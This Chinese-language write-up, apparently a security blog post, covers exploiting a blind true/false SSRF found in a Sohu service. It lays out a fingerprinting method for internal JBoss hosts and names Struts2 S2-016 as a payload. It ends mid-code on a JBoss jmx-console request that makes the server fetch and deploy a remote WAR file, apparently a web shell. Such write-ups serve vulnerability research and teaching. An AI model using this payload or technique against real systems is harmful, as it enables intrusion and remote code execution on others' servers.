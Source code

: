 # Bool型SSRF的思考与实践

0x00 Bool型SSRF
==============

* * *

什么是Bool型SSRF, 没听说过. 其实我也没有听说过. 只是我也不知道该怎么描述就起了这样一个名称. Bool型SSRF:简单来说就是仅返回True 或 False的SSRF. 就以我前两天我挖掘的一个搜狐SSRF为例, 只有服务器端正确响应HTTP请求并且只有响应码为200的时候，返回Success，其余全部返回Failed. 这就是一个典型的Bool型SSRF.

0x01 SSRF利用的基本思路
================

* * *

Wooyun上有很多SSRF典型的案例, 可以说让人拍案惊奇. 但是没有一个关于BOOL型SSRF的利用案例(可能我没看到吧). 这次挖掘到一个搜狐的Bool型SSRF, 对于我这个只是简单理解SSRF原理没有任何实战的渣渣来说, 难度还真大. 不过想想,以前没有接触过SSRF,这次就把你玩透. 翻阅学习Wooyun上的案例, 了解SSRF利用的基本思路:

```
内网探测->应用识别->攻击Payload->Payload Result

``````
内网探测: 内网主机信息收集
应用识别: 主机应用识别(可以通过Barner和应用指纹进行识别)
攻击Payload: 根据应用识别的应用,加载不同的攻击Payload(最常用莫属于Struts2)
Payload Result: 返回相应Payload的执行信息

```

0x02两者之间的区别
===========

* * *

BOOL型SSRF与一般的SSRF的区别在步骤二应用识别,步骤三攻击Payload和步骤四Payload Result. 一般的SSRF在应用识别阶段返回的信息相对较多,比如Banner信息,HTTP Title信息,更有甚的会将整个HTTP的Reponse完全返回. 而Bool型SSRF的却永远只有True or False. 因为没有任何Response信息,所以对于攻击Payload的选择也是有很多限制的, 不能选择需要和Response信息交互的Payload. 在此次搜狐SSRF的中, 我分别使用了JBOSS远程调用和Struts2 S2-016远程命令执行. 对于Bool型SSRF, 我们不能说Payload打过去就一定成功执行, 就算是返回True, 也不能保证Payload一定执行成功. 所以我们要验证Payload的执行状态信息.

0x03 Bool型SSRF利用方法
==================

* * *

### 1.应用识别

{指纹1 + 指纹2 + 黑指纹}, 这里以JBOSS为例:`{ /jmx-console/ + /invoker/JMXInvokerServlet + /d2z341.d#211 }`指纹1 和 指纹2 为应用识别指纹, 准确率越高越好. 黑指纹其实就是不会匹配任何应用的指纹，一般用较长的字符串代替即可. 分别用指纹1, 指纹2 和 黑指纹对内网主机探测统计, 获取三个主机列表:`jmx-console.host(A) invoker.host(B) black.host(C)`.

`Host = (A∩B) –(A∩B∩C)`即剔除jmx-console.host 和 invoker.host中存在于black.host的主机, 然后对jmx-console和invoker.host的主机取交集.

### 2.攻击Payload

针对不用的应用我们需要加载不同的Payload, 但是大多数的攻击都是需要和Payload Result进行交互的. 这类Payload是没有办法用在此处的, 我们需要的是不需要和Payload Result进行交互的Payload. 我可以想到的两种应用比较广泛的Payload有JBOSS和Struts2漏洞.

JBOSS Payload:

```
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system%3Aservice%3DMainDeployer&methodIndex=3&arg0=http%3A%2F%2F192.168.1.2%2Fzecmd.war
